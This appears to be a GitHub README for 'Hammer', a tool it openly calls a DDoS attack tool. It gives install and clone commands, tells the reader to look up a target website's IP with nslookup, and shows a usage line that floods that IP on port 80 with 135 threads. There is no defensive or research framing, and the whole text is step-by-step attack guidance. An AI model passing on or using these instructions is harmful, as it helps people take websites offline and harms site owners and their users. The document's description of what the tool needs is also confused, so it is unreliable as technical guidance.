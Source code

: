 #### DDos Attack Tool

##### Hammer

#### Installation


	apt update
	apt upgrade
	apt install python
	apt install git
	apt install dnsutils
	git clone https://github.com/KNI9H7-SH4D0W/Hammer

Hammer need the Name Server of a website which you want to attack...

To get the Name Server...just type

$ nslookup example.com 

Note the IP Address of that Website


### Usage:
>	$ python hammer.py -s [ip Address] -p 80 -t 135

>	example:

>	$ python hammer.py -s 123.45.67.89 -p 80 -t 135

